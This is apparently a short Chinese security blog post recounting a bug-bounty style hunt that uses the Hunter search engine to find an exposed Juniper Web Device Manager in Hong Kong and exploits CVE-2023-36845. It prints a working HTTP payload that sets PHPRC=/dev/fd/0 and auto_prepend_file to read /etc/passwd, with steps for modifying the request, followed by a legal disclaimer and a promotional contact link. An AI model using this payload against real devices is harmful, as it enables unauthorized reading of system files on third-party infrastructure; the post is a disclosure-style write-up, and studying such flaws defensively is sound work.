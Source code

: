 # 原创
：  记src-Juniper

# 记src-Juniper

### 一、hunter搜索web.title=”Juniper Web Device Manager”，查找到香港的一处资产。

### 二、访问相关网页，界面就是Juniper登录界面。

### 三、根据编号为CVE-2023-36845的利用方法，抓包，修改提交方式，成功读取到文件。

原始包如下：<br/>  

<br/> payload如下：

```
POST /?PHPRC=/dev/fd/0 HTTP/1.1

Host: {{Hostname}}

Content-Type: application/x-www-form-urlencoded



auto_prepend_file="/etc/passwd"
```

修改传参方式，并按照上述payload在路径后面拼接上”?PHPRC=/dev/fd/0”，请求体中加入auto_prepend_file参数。结果如下：

申明：本公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，

所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.

**没看够~？欢迎关注！**

[+V【zkaq222】或者下面的扫码不然通不过哦，免费领取安全学习资料包！（私聊进群一起学习，共同进步）腾讯文档-在线文档<img alt="icon-default.png?t=N7T8" src="https://csdnimg.cn/release/blog_editor_html/release2.3.6/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N7T8"/>https://docs.qq.com/doc/DYmVETWlZemh0Ymdv](https://docs.qq.com/doc/DYmVETWlZemh0Ymdv)
